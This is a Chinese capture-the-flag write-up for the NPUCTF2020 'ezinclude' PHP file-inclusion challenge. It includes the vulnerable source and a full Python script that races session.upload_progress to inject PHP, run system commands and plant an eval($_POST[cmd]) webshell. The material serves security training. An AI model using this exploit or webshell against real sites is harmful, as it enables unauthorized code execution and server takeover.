






# [NPUCTF2020]ezinclude



## 知识点

- Cookie的hase值
- php伪协议读源码
- session.upload_progress条件竞争上传shell

## 解题

进入环境抓包	



给出了`md5($secret.$name)===$pass`

但是还给了hash值，所以直接pass传一下



得到了`flflflflag.php`文件，进入发现是一个文件包含



利用PHP伪协议读源码



```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>

```

过滤了data和input，没法直接命令执行。长度远程包含发现不行，再尝试包含apache的日志文件，也不行。

可以尝试利用session.upload_progress进行session文件包含：

```python
import io
import sys
import requests
import threading

host = 'http://f218d59a-ac81-4409-9ef6-2dfd7a46fd6d.node3.buuoj.cn/flflflflag.php'
sessid = 'y0lo'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            host,
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls /');fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');echo md5('y0lo');?>"},
            files={"file":('a.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        response = session.get(f'{host}?file=/tmp/sess_{sessid}')
        # print(response.text)
        if '3e490c2f6108cf21d95c6b7a5f64deb3' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)


with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
    READ(session)

```

写进shell.php，执行phpinfo即可找到flag。

